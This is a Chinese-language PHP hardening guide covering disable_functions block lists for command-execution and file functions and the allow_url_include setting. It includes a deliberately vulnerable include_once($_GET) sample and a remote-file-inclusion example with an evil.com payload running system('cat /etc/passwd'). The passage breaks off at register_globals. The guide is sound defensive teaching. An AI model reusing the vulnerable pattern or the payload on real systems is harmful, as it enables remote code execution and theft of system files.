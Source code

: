 比如，我们觉得不希望执行包括system()等在那的能够执行命令的php函数，

或者能够查看php信息的phpinfo()等函数，那么我们就可以禁止它们：

```php
disable_functions = system,passthru,exec,shell_exec,popen,phpinfo,escapeshellarg,escapeshellcmd,proc_close,proc_open,dl,show_source,get_cfg_var
```

如果你要禁止任何文件和目录的操作，那么可以关闭很多文件操作：

```php
disable_functions = chdir,chroot,dir,getcwd,opendir,readdir,scandir,fopen,unlink,delete,copy,mkdir,rmdir,rename,file,file_get_contents,fputs,fwrite,chgrp,chmod,chown
```

以上只是列了部分不叫常用的文件处理函数，你也可以把上面执行命令函数和这个函数结合，就能够抵制大部分的phpshell了。

### php7 无需修改的配置

***

#### allow_url_include =Off

PHP通过此选项控制是否允许通过include/require来执行一个远程文件(如<http://evil.com/evil.php或ftp://evil.com/evil.php>)。

代码示例如下：

```php
// http://HostA/test.php如下：
<?php
$strParam = $_GET['param'];
if (!include_once($strParam.’.php’)){
   echo “error”;
}
?>
// http://evil.com/evil.php示例如下：
<?php 
   echo "<?php system('cat/etc/passwd'); ?>"
?>  

```

假如用户访问如下的URL，访问页面中的$strParam将被设置为一个远程的URL：<http://evil.com/evil.php。如果此配置被设置为on，那么test.php会通过include_once执行远程服务器上的PHP文件（http://evil.com/evil.php>），后果不言而喻。

   <http://HostA/test.php?param=http://evil.com/evil>

所以建议此选项强制配置为Off。

当然要彻底解决上述代码的安全漏洞，除了规范PHP配置，还需要规范PHP编码。

### php7 已经废弃的配置

***

#### register_globals = Off
